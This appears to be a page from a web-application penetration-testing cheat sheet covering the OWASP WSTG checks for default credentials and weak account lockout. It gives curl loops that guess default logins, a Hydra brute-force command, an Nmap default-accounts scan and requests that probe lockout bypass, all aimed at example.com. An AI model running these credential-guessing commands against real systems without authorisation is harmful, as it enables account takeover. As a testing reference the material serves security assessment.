 ## WSTG-ATHN-02: Testing for Default Credentials

**Objective**: Determine whether the application has any user accounts with default passwords.

### Commands

```bash
# Test common default credentials
for user in admin administrator root user guest demo test; do
  for pass in admin password 123456 12345678 qwerty default guest demo test; do
    curl -s -X POST -d "username=$user&password=$pass" https://example.com/login | grep -i "welcome\|dashboard\|logout";
  done
done

# Use Hydra for brute forcing with default credentials
hydra -L default_users.txt -P default_passwords.txt example.com http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"

# Check for default credentials in documentation
curl -s https://example.com/docs | grep -i "default\|credential\|password"

# Test vendor-specific default credentials
curl -s -X POST -d "username=cisco&password=cisco" https://example.com/login
curl -s -X POST -d "username=admin&password=admin" https://example.com/login

# Use Nmap NSE scripts for default credentials
nmap --script http-default-accounts example.com
```

## WSTG-ATHN-03: Testing for Weak Lock Out Mechanism

**Objective**: Evaluate the account lockout mechanism's ability to mitigate brute force password guessing and evaluate the unlock mechanism's resistance to unauthorized account unlocking.

### Commands

```bash
# Test for account lockout after multiple failed attempts
for i in {1..10}; do
  curl -s -X POST -d "username=admin&password=invalid$i" https://example.com/login | grep -i "locked\|attempts\|wait";
  sleep 1;
done

# Test for IP-based vs. account-based lockout
# From IP 1 (use proxy or VPN)
curl -s -X POST -d "username=admin&password=invalid" https://example.com/login
# From IP 2 (use different proxy or VPN)
curl -s -X POST -d "username=admin&password=invalid" https://example.com/login

# Test for account lockout reset after successful login
curl -s -X POST -d "username=admin&password=invalid" https://example.com/login
curl -s -X POST -d "username=admin&password=correct_password" https://example.com/login
curl -s -X POST -d "username=admin&password=invalid" https://example.com/login

# Test for account lockout bypass
curl -s -X POST -d "username=admin&password=invalid&unlockAccount=true" https://example.com/login

# Test for account unlock functionality
curl -s -X POST -d "username=admin" https://example.com/reset_lockout
```
